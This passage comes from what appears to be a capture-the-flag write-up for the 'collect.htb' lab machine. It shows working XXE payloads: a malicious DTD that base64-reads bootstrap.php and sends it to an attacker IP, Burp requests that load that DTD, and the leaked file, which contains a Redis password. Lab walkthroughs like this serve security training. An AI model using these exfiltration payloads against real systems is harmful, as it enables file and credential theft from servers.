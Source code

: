 ```http
Content-Length: 171
Origin: http://collect.htb
Connection: close
Referer: http://collect.htb/admin
Cookie: PHPSESSID=b8gl9c885k7c52t61afnen4nj8

manage_api=<?xml version="1.0" encoding="UTF-8"?><root><method>POST</method><uri>/auth/register</uri><user><username>mrk1</username><password>mrk1</password></user></root>
```
4. After some try and error we are able to read files . Check bootstrap.php to receive the redis password!  

**xxe.dtd**  
Do it for **index.php** to get an overview and than check **bootstrap.php** which is mentioned in **index.php**  
While poking around we also discovered **/var/www/developers/.htpasswd**  
```dtd
<!ENTITY % file SYSTEM 'php://filter/convert.base64-encode/resource=../bootstrap.php'>
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://10.10.16.28/?file=%file;'>">
%eval;
%exfiltrate;
```

**Burp Request**  
```http
POST /api HTTP/1.1
Host: collect.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-type: application/x-www-form-urlencoded
Content-Length: 249
Origin: http://collect.htb
Connection: close
Referer: http://collect.htb/admin
Cookie: PHPSESSID=b8gl9c885k7c52t61afnen4nj8
token: ddac62a28254561001277727cb397baf

manage_api=<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://10.10.16.28/xxe.dtd"> %xxe;]><root><method>POST</method><uri>/auth/register</uri><user><username>mrk1</username><password>mrk</password></user></root>
```

**bootstrap.php**  
```php
<?php
ini_set('session.save_handler','redis');
ini_set('session.save_path','tcp://127.0.0.1:6379/?auth=COLLECTR3D1SPASS');

session_start();

require '../vendor/autoload.php';
```
